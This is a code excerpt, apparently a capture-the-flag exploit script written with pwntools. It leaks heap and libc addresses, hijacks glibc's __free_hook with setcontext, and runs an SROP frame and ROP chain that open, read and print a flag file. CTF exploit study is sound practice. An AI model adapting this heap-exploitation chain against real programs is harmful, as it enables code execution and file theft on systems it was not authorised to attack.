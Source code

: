 ```
    sh.recvuntil('Content: ')
    heap_addr = u64(sh.recvuntil('\x2b', drop=True)[-6:].ljust(8, '\x00'))
    log.success("heap_base:\t" + hex(heap_addr - 0x260))

    add(0x200, '\x60')  # 0
    add(0x200, '\x60')  # 3
    add(0x200, '\x60')  # 4
    delete(1)
    show(1)
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x3ebca0)
    libc.address = libc_base


    # SROP

    pop_rdi_addr = libc_base + 0x2155f
    pop_rsi_addr = libc_base + 0x23e6a
    pop_rdx_addr = libc_base + 0x1b96
    pop_rax_addr = libc_base + 0x439c8
    syscall_ret_addr = libc_base + 0xd2975

    fake_frame_addr = heap_addr
    frame = SigreturnFrame()
    frame.rax = 2
    frame.rdi = fake_frame_addr + 0xF8
    frame.rsi = 0
    frame.rdx = 0x100
    frame.rsp = fake_frame_addr + 0xF8 + 0x10
    frame.rip = pop_rdi_addr + 1  # : ret
    rop_data = [
        pop_rax_addr,  # sys_open('flag', 0)
        2,
        syscall_ret_addr,
        pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
        0,
        pop_rdi_addr,
        3,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_ret_addr,
        pop_rax_addr,  # sys_write(1, heap, 0x100)
        1,
        pop_rdi_addr,
        1,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_ret_addr
    ]
    add(0x200, p64(libc.sym['__free_hook']))  # 5
    add(0x200, str(frame).ljust(0xF8, '\x00') + 'flag' + '\x00' * (8 + 4) + flat(rop_data))  # 6
    add(0x200, p64(libc.sym['setcontext'] + 53))  # 7
    #gdb.attach(sh, "b *" + hex(libc.sym['setcontext'] + 53))
    delete(0)

    sh.interactive()


if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`', flag).group())
```